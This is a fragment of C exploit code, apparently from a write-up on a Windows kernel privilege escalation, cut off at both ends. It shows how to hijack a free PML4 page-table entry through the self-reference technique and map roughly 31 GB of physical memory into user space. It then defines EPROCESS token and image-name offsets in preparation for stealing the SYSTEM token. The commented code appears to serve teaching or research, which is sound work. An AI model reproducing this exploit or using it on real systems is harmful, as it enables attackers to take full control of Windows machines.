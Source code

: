 ```C
		return 2;
	}

	// setup: PDPT @ fixed hi-jacked physical address: 0x10000
	// This code uses the PML4 Self-Reference technique discussed, and iterates until we find a "free" PML4 entry
	// we can hijack.
	for (iPML4 = 256; iPML4 < 512; iPML4++) {
		vaPML4e = PML4_BASE + (iPML4 << 3);
		if (*(unsigned long long*)vaPML4e) { continue; }

		// When we find an entry, we add a pointer to the next table (PDPT), which will be
		// stored at the physical address 0x10000
		*(unsigned long long*)vaPML4e = 0x10067;
		break;
	}
	printf("[*] PML4 Entry Added At Index: %d\n", iPML4);

	// Here, the PDPT table is referenced via a virtual address.
	// For example, if we added our hijacked PML4 entry at index 256, this virtual address
	// would be 0xFFFFF6FB7DA00000 + 0x100000
	// This allows us to reference the physical address 0x10000 as:
	// PML4 Index: 1ed | PDPT Index : 1ed |	PDE Index : 1ed | PT Index : 100
	vaPDPT = PDP_BASE + (iPML4 << (9 * 1 + 3));
	printf("[*] PDPT Virtual Address: %p", vaPDPT);

	// 2: setup 31 PDs @ physical addresses 0x11000-0x1f000 with 2MB pages
	// Below is responsible for adding 31 entries to the PDPT
	for (iPDPT = 0; iPDPT < 31; iPDPT++) {
		*(unsigned long long*)(vaPDPT + (iPDPT << 3)) = 0x11067 + (iPDPT << 12);
	}

	// For each of the PDs, a further 512 PT's are created. This gives access to
	// 512 * 32 * 2mb = 33gb physical memory space
	for (iPDPT = 0; iPDPT < 31; iPDPT++) {
		if ((iPDPT % 3) == 0)
			printf("\n[*] PD Virtual Addresses: ");

		vaPD = PD_BASE + (iPML4 << (9 * 2 + 3)) + (iPDPT << (9 * 1 + 3));
		printf("%p ", vaPD);

		for (iPD = 0; iPD < 512; iPD++) {
			// Below, notice the 0xe7 flags added to each entry.
			// This is used to create a 2mb page rather than the standard 4096 byte page.
			*(unsigned long long*)(vaPD + (iPD << 3)) = ((iPDPT * 512 + iPD) << 21) | 0xe7;
		}
	}

	printf("\n[*] Page tables created, we now have access to ~31gb of physical memory\n");

#define EPROCESS_IMAGENAME_OFFSET 0x2e0
#define EPROCESS_TOKEN_OFFSET 0x208
#define EPROCESS_PRIORITY_OFFSET 0xF  // This is the offset from IMAGENAME, not from base

	unsigned long long ourEPROCESS = 0, systemEPROCESS = 0;
	unsigned long long exploitVM = 0xffff000000000000 + (iPML4 << (9 * 4 + 3));
	STARTUPINFOA si;
	PROCESS_INFORMATION pi;

	ZeroMemory(&si, sizeof(si));
	si.cb = sizeof(si);
	ZeroMemory(&pi, sizeof(pi));

```